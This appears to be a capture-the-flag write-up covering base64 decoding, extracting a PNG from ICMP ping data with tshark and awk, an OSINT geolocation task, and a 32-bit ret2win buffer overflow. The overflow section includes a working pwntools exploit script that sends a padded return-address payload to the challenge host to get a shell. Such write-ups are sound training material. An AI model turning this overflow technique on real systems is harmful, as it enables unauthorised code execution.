 ## Scripting

### Base64By32

The flag has simply been base64 encoded 32 times in a row. That is, decode from base64, then decode from base64, then ... etc until you get the flag.

### Echo Chamber

A PCAP is provided, full of icmp (ping) requests. Each ping has a data field that is a hex string (all the same character, and this repeats across two ping requests). Putting the bytes one at a time into something like CyberChef will reveal that it starts with the PNG header.

To extract the image, you can do this in three steps:

1. Extract the data field from every packet into a text file with tshark: `tshark -r echo_chamber.pcap -Y "icmp" -T fields -e data > out.txt`
2. Take every second line and the first byte (two characters in hex) into another file using awk and tr: `awk 'NR % 2 == 0 {print substr($0, 1, 2)}' out.txt | tr -d '\n' > out2.txt`
3. Finally open the file in CyberChef, use 'From Hex', then save as a PNG. The image is of the flag.

## OSINT

### Ran Somewhere

Several PNGs embedded in an email file. You need to submit the location (a named location). An OSINT challenge. I got some help from some geoguesser friends on this one - will say its in Maryland US somewhere.

## Binary Exploitation

### Baby Buffer Overflow - 32bit

The source for a 32 bit ret2win binary is provided. A overflow buffer of 28 characters and then the address of the target function will give a shell, e.g. (using pwntools):

```python
from pwn import *

conn = remote('challenge.ctf.games', 31647)
data = conn.recvuntil("Gimme some data!")
print(data)

payload = b"\x41"*28 + b"\xf5\x91\x04\x08\x00"
conn.sendline(payload)

conn.interactive()
```

## Web
